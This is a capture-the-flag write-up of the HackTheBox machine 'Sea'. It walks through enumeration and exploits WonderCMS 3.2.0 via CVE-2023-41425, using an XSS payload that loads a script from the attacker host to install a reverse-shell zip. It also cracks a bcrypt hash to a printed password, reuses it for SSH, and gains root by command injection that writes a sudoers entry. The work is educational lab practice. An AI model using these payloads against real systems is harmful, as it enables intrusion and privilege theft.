

## Writeup for Sea from HackTheBox


First a nmap scan was performed on the target machine to see which ports are available.


```bash
$ nmap -sC -sV 10.10.11.28         
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-09 21:31 EST
Nmap scan report for 10.10.11.28
Host is up (0.40s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
|   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
|_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Sea - Home
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.31 seconds
```


There is a webserver located at port 80 on the target machine.


Upon visiting the webserver, there is a page which describes a biking competition. There is a "how to participate" button which, when clicked, leads to another page containing a contact link. Upon hovering over the link, the domain "sea.htb" is revealed.


The domain was added to /etc/hosts.


Upon visiting the contact page, there appears to be a form which allows users to enter their personal information. Entering some information, a "Form submitted successfully!" message appears. However, the page contains a "website" field. It would be interesting to see if entering a valid url, such as a link to the attacker machine, triggers anything.


A webserver was set up on the attacker machine so that if anything is sent to the attacking machine, it would be caught.


Indeed the target machine does send a GET request to the attacking machine as seen below.


```bash
$ nc -nvlp 80       
listening on [any] 80 ...
connect to [<IP>] from (UNKNOWN) [10.10.11.28] 35412
GET / HTTP/1.1
Host: <IP>
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/117.0.5938.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
```


However, the request does not appear to contain any valuable information which could be used to gain a foothold on the target machine. Hence, this feature was recorded to see if it could be used in a future exploit.


Next, directory fuzzing was undertaken to reveal any potentially hidden paths.


```bash
$ python3 dirsearch.py -u http://sea.htb

  _|. _ _  _  _  _ _|_    v0.4.3                                              
 (_||| _) (/_(_|| (_| )                                                       
                                                                              
Extensions: php, asp, aspx, jsp, html, htm | HTTP method: GET | Threads: 25
Wordlist size: 12288

Target: http://sea.htb/

[21:37:52] Scanning:                                                          
[21:38:10] 403 -   199B - /.php                                             
[21:38:16] 200 -    4KB - /0                                                
[21:38:19] 200 -    3KB - /404                                              
[21:38:27] 403 -   199B - /admin%20/                                        
[21:38:30] 200 -    4KB - /admin/home                                       
[21:39:05] 200 -    3KB - /contact.php                                      
[21:39:08] 301 -   228B - /data  ->  http://sea.htb/data/                   
[21:39:08] 403 -   199B - /data/                                            
[21:39:08] 403 -   199B - /data/files/                                      
[21:39:23] 200 -    4KB - /home                                             
[21:39:26] 200 -    4KB - /index.php                                        
[21:39:26] 200 -    4KB - /index.php/login/                                 
[21:39:34] 403 -   199B - /login.wdm%20                                     
[21:39:38] 301 -   232B - /messages  ->  http://sea.htb/messages/           
[21:39:42] 403 -   199B - /New%20Folder                                     
[21:39:42] 403 -   199B - /New%20folder%20(2)                               
[21:39:49] 403 -   199B - /phpliteadmin%202.php                             
[21:39:52] 403 -   199B - /plugins/                                         
[21:39:52] 301 -   231B - /plugins  ->  http://sea.htb/plugins/             
[21:39:56] 403 -   199B - /Read%20Me.txt                                    
[21:40:02] 403 -   199B - /server-status/                                   
[21:40:02] 403 -   199B - /server-status                                    
[21:40:06] 200 -    4KB - /sitecore/content/home                            
[21:40:11] 200 -    4KB - /sym/root/home/                                   
[21:40:14] 301 -   230B - /themes  ->  http://sea.htb/themes/               
[21:40:14] 403 -   199B - /themes/                                          
                                                                             
Task Completed
```


Many directories suggest that a Content Management System (CMS) may be in use, as directories such as themes and pluggins appear in many other CMS software. Visiting paths such as sitecore, home and admin revealed pages which are exactly the same as the ones uncovered already.


Subdomain enumeration was also performed on the machine but no subdomains were found.


So far there appears to be only the three pages uncovered so far on this site. The page source of these pages was viewed to find any new information. In the page source, the `/themes/bike` directory was uncovered which was not uncovered by the dirsearch tool.


Perhaps this directory should be enumerated as well to see if any useful information can also be found.


```bash
$ python3 dirsearch.py -u http://sea.htb/themes/bike/

  _|. _ _  _  _  _ _|_    v0.4.3                                              
 (_||| _) (/_(_|| (_| )                                                       
                                                                              
Extensions: php, asp, aspx, jsp, html, htm | HTTP method: GET | Threads: 25
Wordlist size: 12288

Target: http://sea.htb/

[22:54:29] Scanning: themes/bike/                                             
[22:54:45] 403 -   199B - /themes/bike/.hta                                 
[22:54:45] 403 -   199B - /themes/bike/.ht_wsr.txt
[22:54:45] 403 -   199B - /themes/bike/.htaccess
[22:54:45] 403 -   199B - /themes/bike/.htaccess-local
[22:54:45] 403 -   199B - /themes/bike/.htaccess.bak
[22:54:45] 403 -   199B - /themes/bike/.htaccess-dev
[22:54:45] 403 -   199B - /themes/bike/.htaccess-marco
[22:54:45] 403 -   199B - /themes/bike/.htaccess.BAK
[22:54:45] 403 -   199B - /themes/bike/.htaccess.inc
[22:54:45] 403 -   199B - /themes/bike/.htaccess.bak1
[22:54:45] 403 -   199B - /themes/bike/.htaccess.sample
[22:54:45] 403 -   199B - /themes/bike/.htaccess.orig
[22:54:45] 403 -   199B - /themes/bike/.htaccess.save
[22:54:45] 403 -   199B - /themes/bike/.htaccess/
[22:54:45] 403 -   199B - /themes/bike/.htaccess.old
[22:54:45] 403 -   199B - /themes/bike/.htaccess_extra
[22:54:45] 403 -   199B - /themes/bike/.htaccess_sc
[22:54:45] 403 -   199B - /themes/bike/.htaccess_orig
[22:54:45] 403 -   199B - /themes/bike/.htaccess.txt
[22:54:45] 403 -   199B - /themes/bike/.htaccessBAK
[22:54:45] 403 -   199B - /themes/bike/.htaccessOLD
[22:54:45] 403 -   199B - /themes/bike/.htaccessOLD2
[22:54:45] 403 -   199B - /themes/bike/.htaccess~
[22:54:45] 403 -   199B - /themes/bike/.htgroup
[22:54:45] 403 -   199B - /themes/bike/.htpasswd
[22:54:45] 403 -   199B - /themes/bike/.htm                                 
[22:54:45] 403 -   199B - /themes/bike/.html
[22:54:46] 403 -   199B - /themes/bike/.htpasswd.bak
[22:54:46] 403 -   199B - /themes/bike/.htpasswd_test
[22:54:46] 403 -   199B - /themes/bike/.htpasswd-old
[22:54:46] 403 -   199B - /themes/bike/.htpasswd/
[22:54:46] 403 -   199B - /themes/bike/.htpasswd.inc
[22:54:46] 403 -   199B - /themes/bike/.htusers                             
[22:54:46] 403 -   199B - /themes/bike/.htpasswds                           
[22:54:46] 403 -   199B - /themes/bike/.httr-oauth                          
[22:54:49] 403 -   199B - /themes/bike/.php                                 
[22:54:58] 200 -    3KB - /themes/bike/404                                  
[22:55:08] 403 -   199B - /themes/bike/admin%20/                            
[22:55:11] 200 -    4KB - /themes/bike/admin/home                           
[22:55:52] 301 -   239B - /themes/bike/css  ->  http://sea.htb/themes/bike/css/
[22:56:08] 200 -    4KB - /themes/bike/home                                 
[22:56:10] 301 -   239B - /themes/bike/img  ->  http://sea.htb/themes/bike/img/
[22:56:17] 200 -    1KB - /themes/bike/LICENSE                              
[22:56:19] 403 -   199B - /themes/bike/login.wdm%20                         
[22:56:28] 403 -   199B - /themes/bike/New%20folder%20(2)                   
[22:56:28] 403 -   199B - /themes/bike/New%20Folder                         
[22:56:35] 403 -   199B - /themes/bike/phpliteadmin%202.php                 
[22:56:44] 403 -   199B - /themes/bike/Read%20Me.txt                        
[22:56:44] 200 -   318B - /themes/bike/README.md                            
[22:56:53] 200 -    4KB - /themes/bike/sitecore/content/home                
[22:56:59] 200 -    4KB - /themes/bike/sym/root/home/                       
[22:57:08] 200 -     6B - /themes/bike/version                              
[22:57:08] 404 -   196B - /themes/bike/version/                             
                                                                             
Task Completed
```


Indeed many useful directories could be found such as README.md and version. The contents of the README file indicate that WonderCMS is being used.


```md
# WonderCMS bike theme

## Description
Includes animations.

## Author: turboblack

## Preview


## How to use
1. Login to your WonderCMS website.
2. Click "Settings" and click "Themes".
3. Find theme in the list and click "install".
4. In the "General" tab, select theme to activate it.
```


The version directory contains the version of WonderCMS being used.


```md
3.2.0
```


Research was performed to see if there are any vulnerabilities against WonderCMS 3.2.0. Indeed there is a serious Cross Site Scripting (XSS) vulnerability against this version of WonderCMS. A public exploit on Github was found which exploits this: https://github.com/insomnia-jacob/CVE-2023-41425.


To understand how CVE-2023-41425 works, this article was found to provide a useful explanation: https://medium.com/@uu660111/cve-2023-41425-technical-analysis-viktor-v%C3%A4xby-d23fbde9b6e8.


In essence, this attack exploits vulnerabilities in two separate areas of WonderCMS. Firstly, when an authenticated user visits any webpage in WonderCMS, PHP uses the `$this->getCurrentPageUrl()` to include the current page's URL inside a HTML element. However, this allows an attacker to inject a malicious XSS payload because the input is not escaped or encoded, making it easy to break out of a HTML tag and insert Javascript code which is executed.


This is where the contact.php form comes in, as the webserver, who is most likely authenticated, will visit whatever has been provided in the website field. Hence, in that field, the URL to a WonderCMS page, such as the login page, will be provided, which will also be escaped by a ">" character, allowing for the insertion of Javascript code.


Next, WonderCMS has a installUpdateModuleAction module which allows authenticated users to install and update their themes. When an authenticated user visits `/?installModule=x&directoryName=x&type=x&token=x`, this tells WonderCMS to install or update the module provided by the parameters of this request. The link provided in "installModule", should be a link to a .zip file, which will be downloaded by WonderCMS to install or update some theme. However, WonderCMS blindly installs whatever zip file is passed to it.


Hence, in the earlier XSS exploit, the Javascript payload which will be executed will direct the authenticated user to download a malicious `xss.js` page, which is located on the attacking machine. The contents of `xss.js` will direct the WonderCMS installUpdateModuleAction module to install a malicious zip file which will result in a reverse shell being sent to the attacker.


The exploit from the Github page was cloned and the instructions for using this script were followed.


```bash
$ python3 exploit.py -u http://sea.htb/loginURL -i <IP> -p 1234 -r http://<IP>:8000/main.zip
 
================================================================          
        # Autor      : Insomnia (Jacob S.)                                
        # IG         : insomnia.py                                        
        # X          : @insomniadev_                                      
        # Github     : https://github.com/insomnia-jacob                  
================================================================          
 
[+]The zip file will be downloaded from the host:    http://<IP>:8000/main.zip
 
[+] File created:  xss.js                                                 
 
[+] Set up nc to listen on your terminal for the reverse shell            
        Use:                                                              
                   nc -nvlp 1234                                          
 
[+] Send the below link to admin:                                         
                                                                          
         http://sea.htb/index.php?page=loginURL?"></form><script+src="http://<IP>:8000/xss.js"></script><form+action="                       

Starting HTTP server with Python3, waiting for the XSS request
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.28 - - [17/Jan/2025 01:51:45] "GET /xss.js HTTP/1.1" 200 -
10.10.11.28 - - [17/Jan/2025 01:51:55] "GET /main.zip HTTP/1.1" 200 -
10.10.11.28 - - [17/Jan/2025 01:51:55] "GET /main.zip HTTP/1.1" 200 -
10.10.11.28 - - [17/Jan/2025 01:51:55] "GET /main.zip HTTP/1.1" 200 -
10.10.11.28 - - [17/Jan/2025 01:51:56] "GET /main.zip HTTP/1.1" 200 -
```


In contact.php the payload: `http://sea.htb/index.php?page=loginURL?"></form><script+src="http://<IP>:8000/xss.js"></script><form+action="  ` is provided to the website field. This exploits the XSS vulnerability in WonderCMS, so that the target webserver can download the malicious xss.js script and later install main.zip.


Soon a reverse shell was obtained as the user www-data.


```bash
$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [<IP>] from (UNKNOWN) [10.10.11.28] 48290
Linux sea 5.4.0-190-generic #210-Ubuntu SMP Fri Jul 5 17:03:38 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 06:36:09 up 10:51,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@sea:/$ ls /home
ls /home
amay  geo
```


The users "amay" and "geo" could be found in the home directory.


First, the files used by the webserver were first analysed to see if they contain any database file, as they may contain passwords. Indeed a "database.js" file contained a hash.


```bash
www-data@sea:/var/www/sea/data$ cat database.js
cat database.js                                                                                                                                             
{                                                                                                                                                           
    "config": {                                                                                                                                             
        "siteTitle": "Sea",                                                                                                                                 
        "theme": "bike",                                                                                                                                    
        "defaultPage": "home",                                                                                                                              
        "login": "loginURL",                                                                                                                                
        "forceLogout": false,                                                                                                                               
        "forceHttps": false,                                                                                                                                
        "saveChangesPopup": false,                                                                                                                          
        "password": "$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q",                                                                       
        "lastLogins": {                                                                                                                                     
            "2025\/01\/10 04:36:03": "127.0.0.1",                                                                                                           
            "2025\/01\/10 04:34:33": "127.0.0.1",                                                                                                           
            "2025\/01\/10 04:29:03": "127.0.0.1",                                                                                                           
            "2025\/01\/10 04:25:33": "127.0.0.1",
            "2024\/07\/31 15:17:10": "127.0.0.1"
        },
        "lastModulesSync": "2025\/01\/10",
        "customModules": {
            "themes": {},
            "plugins": {}
        },
        "menuItems": {
            "0": {
                "name": "Home",
                "slug": "home",
                "visibility": "show",
                "subpages": {}
            },
            "1": {
                "name": "How to participate",
                "slug": "how-to-participate",
                "visibility": "show",
                "subpages": {}
            }
        },
        "logoutToLoginScreen": {}
    },
    "pages": {
        "404": {
            "title": "404",
            "keywords": "404",
            "description": "404",
            "content": "<center><h1>404 - Page not found<\/h1><\/center>",
            "subpages": {}
        },
        "home": {
            "title": "Home",
            "keywords": "Enter, page, keywords, for, search, engines",
            "description": "A page description is also good for search engines.",
            "content": "<h1>Welcome to Sea<\/h1>\n\n<p>Hello! Join us for an exciting night biking adventure! We are a new company that organizes bike competitions during the night and we offer prizes for the first three places! The most important thing is to have fun, join us now!<\/p>",
            "subpages": {}
        },
        "how-to-participate": {
            "title": "How to",
            "keywords": "Enter, keywords, for, this page",
            "description": "A page description is also good for search engines.",
            "content": "<h1>How can I participate?<\/h1>\n<p>To participate, you only need to send your data as a participant through <a href=\"http:\/\/sea.htb\/contact.php\">contact<\/a>. Simply enter your name, email, age and country. In addition, you can optionally add your website related to your passion for night racing.<\/p>",
            "subpages": {}
        }
    },
    "blocks": {
        "subside": {
            "content": "<h2>About<\/h2>\n\n<br>\n<p>We are a company dedicated to organizing races on an international level. Our main focus is to ensure that our competitors enjoy an exciting night out on the bike while participating in our events.<\/p>"
        },
        "footer": {
            "content": "\u00a92024 Sea"
        }
    }
}
```


The hash below was retrieved from database.js:


```
$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q
```


This was then cracked using John the Ripper, which is used to perform a dictionary attack on the hash using the rockyou text file.


```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X2])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mychemicalromance (?)     
1g 0:00:00:20 DONE (2025-01-09 23:51) 0.04887g/s 150.1p/s 150.1c/s 150.1C/s chaparra..dangerous
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```


A password was retrieved. Since users tend to reuse their passwords it was tested to see if this password is in fact a SSH password for one of the users found earlier.


```bash
$ ssh amay@10.10.11.28
amay@10.10.11.28's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-190-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Fri 17 Jan 2025 06:36:53 AM UTC

  System load:  0.55              Processes:             260
  Usage of /:   66.4% of 6.51GB   Users logged in:       0
  Memory usage: 11%               IPv4 address for eth0: 10.10.11.28
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Fri Jan 17 06:02:36 2025 from 10.10.16.62
amay@sea:~$ ls
user.txt
```


Indeed, as seen above, the password was used to successfully login as the "amay" user.


Next Linpeas was used to further enumerate on the machine to see if any vulnerabilities which can be used to escalate privileges. Before that the command `sudo -l` was run to see if the user can execute any sudo commands. However, they were unable to. The "linpeas.sh" file was uploaded to the attacking machine by starting a webserver on the attacking machine and using wget on the target machine to retrieve the file. The Linpeas script found some open ports.


```bash                                                                  
tcp        0      0 127.0.0.1:56781         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
```


There appear to be two main open ports of interest, which are 56781 and 8080. One way to check which of these ports contains interesting information is to search for those port numbers in the "/etc" directory in the machine. This directory usually contains many system configuration files, such as service files which can be used to run software.


This was done using the `grep` command.


```bash
amay@sea:~$ grep "8080" -R /etc
grep: /etc/rc5.d/S01multipath-tools: No such file or directory
grep: /etc/rc4.d/S01multipath-tools: No such file or directory
grep: /etc/rc3.d/S01multipath-tools: No such file or directory
grep: /etc/rc2.d/S01multipath-tools: No such file or directory
/etc/systemd/system/multi-user.target.wants/monitoring.service:ExecStart=/usr/bin/php -S localhost:8080 -t /root/monitoring
grep: /etc/systemd/system/multi-user.target.wants/snapd.aa-prompt-listener.service: No such file or directory
/etc/systemd/system/monitoring.service:ExecStart=/usr/bin/php -S localhost:8080 -t /root/monitoring
grep: /etc/rc0.d/K01multipath-tools: No such file or directory
/etc/services:http-alt  8080/tcp        webcache        # WWW caching service
grep: /etc/rc1.d/K01multipath-tools: No such file or directory
/etc/apache2/magic:0    lelong&0x8080ffff       0x0000081a      application/x-arc lzw
/etc/apache2/magic:0    lelong&0x8080ffff       0x0000091a      application/x-arc squashed
/etc/apache2/magic:0    lelong&0x8080ffff       0x0000021a      application/x-arc uncompressed
/etc/apache2/magic:0    lelong&0x8080ffff       0x0000031a      application/x-arc packed
/etc/apache2/magic:0    lelong&0x8080ffff       0x0000041a      application/x-arc squeezed
/etc/apache2/magic:0    lelong&0x8080ffff       0x0000061a      application/x-arc crunched
/etc/apache2/magic:0            lelong&0x8080ffff       0x0000081a      application/x-arc
/etc/apache2/magic:0            lelong&0x8080ffff       0x0000091a      application/x-arc
/etc/apache2/magic:0            lelong&0x8080ffff       0x0000021a      application/x-arc
/etc/apache2/magic:0            lelong&0x8080ffff       0x0000031a      application/x-arc
/etc/apache2/magic:0            lelong&0x8080ffff       0x0000041a      application/x-arc
/etc/apache2/magic:0            lelong&0x8080ffff       0x0000061a      application/x-arc
/etc/ssh/moduli:20190427180808 2 6 100 3071 5 E7A9F2E16494A110F823F0C90DFE9CC40005B24122176C6C6525F90F736433F094527C6DB9032736C471474E93E7DAB28D9CC80DC6C93EF27473EFE0F4A3A3AFBC07C0BA0DEFA0C73C075700D69F950499B634B197AD2B4E32712E80AEC3D463DAD26397FEB80B1DE1DBF96C7BF1CAEF1A47E39D135A5D941BF1ECE9186CF23C785E2B368B8AFC24E120EA6956EB97206AD0C80DE87D092190A049E0E12F340E41C6EFE13F1C19A63763B90C4E9099D0011FA62913194E4671998FAE8847EA077F506D394ACBCF139DF20A9C36BDC1B82F905BF1975C9D4322EF2E9165EC2C0FAAEEABED7EF759F4D4BD764A5BA4043085CE3D679B0CE5C79340CF92E35D7A931A0B4A52B3447EBF7E2E2633EE221989B8A9E2C598A058CFBFCA4800BAFFBD8F9B9B3068AC18A0A030EC0CDE39439DFFFA8C42EDF7D4FC1D4E6D455A7387BCBE7EF973B3452E026707189CE35086A3B7B82BE0DF2824972794435DC8A76AC110CE46FADCF5C0BC070A61F14CEFB6B8EFCEA85B0F320D441B7DC1CBA215D1C7E7
grep: /etc/rc6.d/K01multipath-tools: No such file or directory
/etc/ufw/user6.rules.20240222_021631:### tuple ### allow tcp 8080 ::/0 any ::/0 in
/etc/ufw/user6.rules.20240222_021631:-A ufw6-user-input -p tcp --dport 8080 -j ACCEPT
/etc/ufw/user6.rules.20240222_021631:### tuple ### allow udp 8080 ::/0 any ::/0 in
/etc/ufw/user6.rules.20240222_021631:-A ufw6-user-input -p udp --dport 8080 -j ACCEPT
/etc/ufw/user.rules.20240222_021631:### tuple ### allow tcp 8080 0.0.0.0/0 any 0.0.0.0/0 in
/etc/ufw/user.rules.20240222_021631:-A ufw-user-input -p tcp --dport 8080 -j ACCEPT
/etc/ufw/user.rules.20240222_021631:### tuple ### allow udp 8080 0.0.0.0/0 any 0.0.0.0/0 in
/etc/ufw/user.rules.20240222_021631:-A ufw-user-input -p udp --dport 8080 -j ACCEPT
Binary file /etc/ssl/certs/java/cacerts matches
```


```bash
amay@sea:~$ grep "56781" -R /etc
grep: /etc/rc5.d/S01multipath-tools: No such file or directory
grep: /etc/rc4.d/S01multipath-tools: No such file or directory
grep: /etc/rc3.d/S01multipath-tools: No such file or directory
grep: /etc/rc2.d/S01multipath-tools: No such file or directory
grep: /etc/systemd/system/multi-user.target.wants/snapd.aa-prompt-listener.service: No such file or directory
grep: /etc/rc0.d/K01multipath-tools: No such file or directory
grep: /etc/rc1.d/K01multipath-tools: No such file or directory
grep: /etc/rc6.d/K01multipath-tools: No such file or directory
```

It can be seen that when searching for "8080" in "/etc", there appears to be a service file which locally runs a PHP monitoring script on port 8080. The search on port 56781 does not return anything interesting.


Hence, in order to access the service running on port 8080, port forwarding was used.


```bash
$ ssh amay@10.10.11.28 -L 3000:127.0.0.1:8080
```


This creates a tunnel between port 3000 on the attacking machine and port 8080 on the target machine, where the service is running.


There a webserver running which allows users to analyse some log files.





Burpsuite was used to capture the request sent when the green "Analyze" button is pressed.


The "log_file" field of the request contains the file which is being analysed. The access.log file appears to be a file on the system's computer. Hence, another file on the system was passed to the request, this time "/etc/shadow".


Indeed, only some of the file is outputted, as the root user's hash could not be seen. The fact that the site reads and displays files on the machine's system suggests that OS commands may be used in the background to display the content of these files, albeit with some modification to prevent the entire file contents from being displayed.


The `id` command was then inserted to see if it was in any command execution. The payload used in "log_file" was `/etc/shadow;id`. However, this did not successfully result in code execution.


Much experimentation with the payload was performed. Eventually, it was discovered that adding a "#" to the end of the payload results in code execution as well as the whole file being displayed.


This confirms that the site is vulnerable to OS command injection. Next a payload was created to attempt to initiate a reverse shell. This was achieved but quickly the reverse shell would be terminated, limiting the usefulness of the reverse shell.


Instead of obtaining a reverse shell, a command would be written to give the "amay" user the ability to run any `sudo` command without a password.


The final payload used was: 


```bash
/etc/shadow; echo "amay ALL=(ALL) NOPASSWD: ALL" > /etc/sudoers.d/amay ;#
```


This was then URL encoded and sent to the webserver.


Returning to the terminal, when running `sudo -l`, the "amay" user is now able to run any command as superuser without a password. By running `sudo su`, the user is able to become the root user.


```bash
amay@sea:~$ sudo -l
Matching Defaults entries for amay on sea:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User amay may run the following commands on sea:
    (ALL) NOPASSWD: ALL
amay@sea:~$ sudo su
root@sea:/home/amay# ls
user.txt
root@sea:/home/amay# ls /root
monitoring  root.txt  scripts
```


Overall, the exploit to obtain foothold makes use of a public exploit for a open source CMS. However, the version and CMS used by the webserver were not easily found. Hence, this box forced me to be more careful and thorough in my enumeration. In terms of escalating privileges, the monitoring software was easily uncovered. Nevertheless, I found it interesting that the usage of the "#" character was key to obtaining OS command execution, as it was something I had not encountered before. Since the "#" character is used for commenting in bash scripting, this may explain why this character was so effective